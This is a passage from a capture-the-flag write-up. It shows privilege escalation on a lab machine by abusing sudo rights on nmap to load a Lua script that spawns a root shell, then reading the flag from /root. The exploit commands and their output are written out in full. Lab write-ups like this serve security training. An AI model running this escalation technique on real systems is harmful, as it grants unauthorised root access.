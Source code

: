 https://gtfobins.github.io/gtfobins/nmap/

We can abuse the sudo privilges with nmap to preform privilege escalation

I tried first with the interactive mode but it's not supported

Let's use the script tag 

```bash
$ TF=$(mktemp)
$ echo 'os.execute("/bin/sh")' > $TF
$ sudo nmap nmap --script=$TF
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-17 03:25 UTC
NSE: Warning: Loading '/tmp/tmp.NBuwiCQl1b' -- the recommended file extension is '.nse'.
# id
uid=0(root) gid=0(root) groups=0(root)
```
We got root!

Now let's search for the flag inside /root

```bash
drwx------  6 root root 4096 Apr  6 12:27 .
drwxr-xr-x 19 root root 4096 Apr 17 03:08 ..
lrwxrwxrwx  1 root root    9 Apr  6 12:27 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Apr  5 22:30 .cache
-rw-r--r--  1 root root    0 Apr 17 03:08 .cloud-locale-test.skip
drwxr-xr-x  3 root root 4096 Apr  5 22:33 .local
-rw-------  1 root root   18 Apr  5 23:29 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root    7 Apr  5 23:24 .sqlite_history
drwx------  2 root root 4096 Apr 17 03:20 .ssh
-rw-r--r--  1 root root  250 Apr 17 03:21 .wget-hsts
-rw-r--r--  1 root root   26 Apr  6 10:25 flag.txt
drwx------  3 root root 4096 Apr  5 22:29 snap
# cat: flag.txt
# thnb{G00d_Olah1l4_G00d@!}
```
The machine was open for all so i cleaned the privsec script and my reverse shell to keep it clean

```bash
$ cd /tmp
$ ls
tmp.NBuwiCQl1b  tmux-33
$ cat tmp.NBuwiCQl1b
os.execute("/bin/sh")
$ rm tmp.NBuwiCQl1b
```  

### Flag

```
thnb{G00d_Olah1l4_G00d@!}
```
